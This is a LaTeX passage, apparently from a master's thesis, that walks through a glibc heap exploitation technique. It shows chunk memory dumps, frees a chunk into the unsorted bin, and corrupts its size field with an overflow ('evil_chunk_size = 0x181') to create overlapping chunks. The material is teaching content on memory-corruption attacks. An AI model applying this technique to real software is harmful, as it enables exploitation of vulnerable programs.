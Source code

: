 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}

Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV\_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV\_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, We have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
\end{document}
